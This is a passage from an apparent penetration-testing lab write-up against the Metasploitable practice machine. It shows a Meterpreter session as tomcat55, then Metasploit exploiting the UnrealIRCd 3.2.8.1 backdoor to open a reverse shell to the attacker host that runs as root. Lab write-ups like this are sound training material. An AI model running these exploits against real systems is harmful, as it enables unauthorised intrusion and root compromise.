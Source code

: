 ```
[*] Sending stage (53837 bytes) to 172.16.243.143
[*] Meterpreter session 6 opened (172.16.243.144:4444 -> 172.16.243.143:51511) at 2018-03-25 19:31:02 -0400

meterpreter > getuid
Server username: tomcat55
meterpreter > getwd
/
```

### UnrealIRCd

Another service running on the target system was the UnrealIRCd daemon. A search in Metasploit turned up an exploit that leveraged a backdoor for remote command execution. Running this exploit against the target system returned a fresh shell, in this case another root process.

```
msf > search unrealircd

Matching Modules
================

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution


msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 172.16.243.144:4444
[*] 172.16.243.143:6667 - Connected to 172.16.243.143:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 172.16.243.143:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo TGzZR4D3jPBPYfwb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "TGzZR4D3jPBPYfwb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 7 opened (172.16.243.144:4444 -> 172.16.243.143:60426) at 2018-03-25 20:04:59 -0400

id
uid=0(root) gid=0(root)
hostname
metasploitable
```
